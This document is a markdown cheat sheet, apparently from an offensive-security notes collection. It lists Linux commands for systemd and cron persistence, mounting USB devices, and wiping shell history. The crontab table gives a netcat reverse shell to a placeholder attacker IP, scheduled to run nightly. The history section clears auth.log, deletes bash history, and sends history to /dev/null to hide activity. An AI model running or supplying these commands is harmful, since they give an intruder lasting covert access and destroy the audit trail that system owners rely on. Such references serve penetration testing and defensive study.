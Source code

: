 ## LINUX SERVICE
| Description | Command |
|-------------|---------|
| Create/Open new service file using nano | `nano /etc/systemd/system/<SERVICE_NAME>.service` |
| Add service information to file. <FILE_PATH> is full path to .sh file to execute on startup. When done, press CTRL+X, then press 'Y', then press 'Enter' to save and close the file with nano | Service file content:<br>`[Unit]`<br>`after=network.target`<br>`Description=My Service description`<br><br>`[Service]`<br>`Type=simple`<br>`Restart=always`<br>`ExecStart=<FILE_PATH>`<br><br>`[Install]`<br>`WantedBy=multi-user.target` |
| Reload service manager | `systemctl daemon-reload` |
| Enable the service | `systemctl enable <SERVICE_NAME>.service` |
| Start the service persistence | `systemctl start <SERVICE_NAME>.service` |

## CRONTAB
| Description | Command |
|-------------|---------|
| Create cron that runs a Netcat reverse shell every day at midnight | Open new crontab: `crontab -e`<br>Add the following line at the end:<br>`0 0 * * * nc <ATTACKER_IP> <ATTACKER_PORT> -e /bin/sh` |
| Create cron that runs a payload every day at midnight | Open new crontab: `crontab -e`<br>Add the following line at the end:<br>`0 0 * * * <FULLPATH>` |

## MOUNT USB DEVICE
| Description | Command |
|-------------|---------|
| List out potential devices to mount. Make note of the device path | `sudo fdisk -l` |
| Create directory to mount to | `mkdir /media/myUSBDevice` |
| Mount device to created directory | `mount <DEVICE_PATH> /media/myUSBDevice/` |
| Run mount to show all mounted devices. See if USB device was mounted successfully | `mount | grep <DEVICE_PATH>` |
| Unmount USB device | `umount -f /media/myUSBDevice` |

## BASH HISTORY MANIPULATION
| Description | Command |
|-------------|---------|
| Clear auth.log | `echo > /var/log/auth.log` |
| Clear current user Bash history | `echo > ~/.bash_history` |
| Delete .bash_history file | `rm ~/.bash_history -rf` |
| Clear current session history | `history -c` |
| Set history max lines to 0 | `export HISTFILESIZE=0` |
| Set history max commands to 0 | `export HISTSIZE=0` |
| Disable history logging (need to logout to take effect) | `unset HISTFILE` |
| Kills current session | `kill -9 $$` |
| Permanently send all Bash history commands to /dev/null | `ln -sf /dev/null ~/.bash_history` |

